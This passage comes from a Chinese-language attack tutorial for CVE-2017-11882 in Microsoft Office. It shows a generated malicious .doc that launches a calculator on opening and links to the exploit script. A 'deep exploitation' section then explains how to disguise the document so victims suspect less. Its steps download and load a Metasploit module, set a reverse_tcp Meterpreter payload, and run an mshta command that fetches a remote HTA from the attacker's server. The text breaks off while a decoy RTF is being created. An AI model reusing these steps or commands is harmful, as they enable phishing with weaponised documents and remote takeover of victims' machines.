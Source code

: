 (2)  可以看到执行该脚本后会生成一个doc文档

![图片](https://ae01.alicdn.com/kf/U22b2058111344e2088c779720876d9959.jpg)

(3)  我们用存在漏洞版本的office打开我们刚刚生成的doc文档:

![图片](https://ae01.alicdn.com/kf/Ue0b759b83f4b4f4daa4f4af03d469cd86.jpg)

可以看到我们一打开这个文档就会弹出计算器.

脚本地址:

[https://raw.githubusercontent.com/backlion/demo/master/cve-2017-11882-v2.py](https://raw.githubusercontent.com/backlion/demo/master/cve-2017-11882-v2.py)

## 深度利用:
自定义文档内容,让别人看了对我们的文档怀疑更少些.让它在不知不觉的情况下上线!

利用原理:

利用触发器 WebClient 服务从攻击者控制的 WebDav 服务器启动和执行远程文件。

### 第一种: **通过msf自定义word内容复现**
(1)  先下载msf中的利用模块:

```
wget https://raw.githubusercontent.com/backlion/demo/master/PS_shell.rb
```
(2)  拷贝ps_shell模块到msf对应的模块下(根据自己msf安装位置来复制):
```
cp  PS_shell.rb /usr/share/metasploit-framework/modules/exploits/windows/
```
(3)  启动msf并使用刚刚上传的脚本
```
Reload_all                 (加载我们刚刚添加的脚本)
use exploits/windows/PS_shell
Set payload windows/meterpreter/reverse_tcp
Set LHOST 192.168.1.12
Set URIPATH dd          (这里随意设置,是我们要加载远程马的名字)
exploit
```
此时msf会监听4444端口来接收反弹的shell并且开启一个web服务用来存放木马文件:
![图片](https://ae01.alicdn.com/kf/U05089214ff1845e6b45641410752f504O.jpg)

可以看到它提示我们:

```
mshta.exe "http://192.168.1.223:8080/dd"
```
mshta是用来执行hta文件的，mshta不仅可以使用vbscript，而且可以使用javascript来执行命令.
(4)  创建自定义内容的文档:

a.先新建一个rtf文档:

![图片](https://ae01.alicdn.com/kf/U113fb1da771349c59f778c28dd1941df6.jpg)
